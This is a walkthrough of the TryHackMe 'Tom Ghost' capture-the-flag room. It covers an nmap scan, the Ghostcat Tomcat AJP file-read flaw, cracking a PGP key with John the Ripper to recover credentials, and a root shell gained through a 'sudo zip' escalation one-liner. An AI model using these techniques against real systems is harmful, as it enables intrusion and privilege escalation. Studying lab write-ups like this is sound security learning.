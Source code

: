 # Tom Ghost

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/016dea7c96e8b422241016405b571c8b.jpeg)

## Difficulty = Easy

***

Running our nmap scan we have this :

```bash
# Nmap 7.94 scan initiated Sun Oct  1 19:26:10 2023 as: nmap -sVC -T4 -oN nmap.txt -v 10.10.153.250  
Increasing send delay for 10.10.153.250 from 0 to 5 due to 61 out of 151 dropped probes since last increase.  
Nmap scan report for 10.10.153.250  
Host is up (0.30s latency).  
Not shown: 996 closed tcp ports (conn-refused)  
PORT     STATE SERVICE    VERSION  
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)  
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)  
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)  
53/tcp   open  tcpwrapped  
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)  
| ajp-methods:    
|_  Supported methods: GET HEAD POST OPTIONS  
8080/tcp open  http       Apache Tomcat 9.0.30  
| http-methods:    
|_  Supported Methods: GET HEAD POST OPTIONS  
|_http-title: Apache Tomcat/9.0.30  
|_http-favicon: Apache Tomcat  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Read data files from: /usr/bin/../share/nmap  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
# Nmap done at Sun Oct  1 19:27:14 2023 -- 1 IP address (1 host up) scanned in 64.14 seconds
```

Running dir/file bruteforce we have series of entries


![](https://i.imgur.com/hlK7riR.png)

Checking all of these doesn't seem to give me good leads, Even tried logging in but we always have status code `404`

![](https://i.imgur.com/ImOPnKO.png)

Enumerated harder and found [this](https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md) , we have a **Ghostcat-Apache Tomcat AJP File Read/Inclusion Vulnerability**

![](https://i.pinimg.com/736x/77/2c/ab/772cab4b3b0153ef4d7c46a00ee76b91.jpg)

Running the exploit we found a password and username

![](https://i.imgur.com/QfXlS2m.png)

We can therefore login via `SSH`, since there is no where else to test the credential


![](https://i.imgur.com/nZvAe6G.png)

On `/home/skyfuck` directory we have a `tryhackme.asc` file 

![](https://i.imgur.com/7qeSxPf.png)

We can transfer this file to our target machine with `netcat` and then attempt to crack it

![](https://i.imgur.com/5ksLrIU.png)

First of all convert this `.asc` to a crack-able hash that `johntheripper` can understand

![](https://i.imgur.com/6EjYWxm.png)

Then we can crack it with the following syntax

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](https://i.imgur.com/d9My8Vw.png)

Next run the command on your target system -:

```bash
$ gpg --import tryhackme.asc
```

![](https://i.imgur.com/OzccMGj.png)

Then run this next and input the passphrase we got from `johntheripper` **(ale......)**

```bash
$ gpg --decrypt-files credential.pgp
```

![](https://i.imgur.com/RKGhO3o.png)

***

**_Note :_**

Here are the two articles i used to go about solving the `.asc` and `.pgp` mystery

- [Link 1](https://www.openwall.com/lists/john-users/2015/11/17/1)
- [Link 2](https://superuser.com/questions/414679/how-to-extract-files-from-pgp-file)

***

Looks like we have user, **merlin** credential


![](https://i.imgur.com/hscZ38V.png)

Now switch user to **merlin**

![](https://i.imgur.com/xy1xdSE.png)

Running `sudo -l` we have permissions to run `zip` with the `sudo` command


![](https://i.imgur.com/deRWpXl.png)

Using this payloads we got user, **root**

```bash
$ TF=$(mktemp -u)
$ sudo zip $TF /etc/hosts -T -TT 'sh #'
```

![](https://i.imgur.com/xUliSXS.png)

GG 🥳


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

